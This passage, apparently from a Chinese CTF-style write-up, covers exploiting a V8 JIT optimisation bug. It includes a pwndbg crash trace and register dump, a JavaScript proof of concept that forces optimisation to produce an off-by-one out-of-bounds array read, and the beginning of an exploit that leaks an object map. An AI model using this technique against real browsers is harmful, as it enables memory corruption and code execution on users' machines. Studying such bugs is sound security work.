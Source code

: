```
   f 8     7fadac91f626 v8::internal::OptimizedCompilationJob::ExecuteJob()+214
   f 9     7fadac92a24c
   f 10     7fadac923507
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg&gt; i registers xmm0
xmm0           `{`
  v4_float = `{`0x0, 0x1b, 0x0, 0x0`}`, 
  v2_double = `{`0x7fffffff, 0x0`}`, 
  v16_int8 = `{`0x0, 0x0, 0xc0, 0xff, 0xff, 0xff, 0xdf, 0x41, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0`}`, 
  v8_int16 = `{`0x0, 0xffc0, 0xffff, 0x41df, 0x0, 0x0, 0x0, 0x0`}`, 
  v4_int32 = `{`0xffc00000, 0x41dfffff, 0x0, 0x0`}`, 
  v2_int64 = `{`0x41dfffffffc00000, 0x0`}`, 
  uint128 = 0x000000000000000041dfffffffc00000
jbefunction foo()
`{`
    let oob = [1.0,1.1,1.2];
    let m = `{`o:3`}`;   &lt;============改动的位置

    return oob[m.o];
`}`
// const MAX_ITERATIONS = 100000;
print(foo());
print(foo());
// for(var i=0;i&lt;MAX_ITERATIONS;i++)
// `{`
//     foo(1);
// `}`
readline();
%OptimizeFunctionOnNextCall(foo);
print(foo());
```

这样上面的脚本就形成了off-by-one

之后的操作就如2019 *ctf oob了~~~



## 3 exp

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="3.1"></a>3.1

基本的思路和*ctf oob类似　这里就不多写了

泄露map值

```
function foo()
`{`
    // let oob;
    // let obj_array;
    oob = [1.0,1.1,1.2];
    obj_array = [oob];//
    let m = `{`o:3`}`;
    // if(argg == 1)
    // `{`
    //     %DebugPrint(obj_array);
    //     %DebugPrint(oob);
    // `}`

    return oob[m.o];
`}`
```
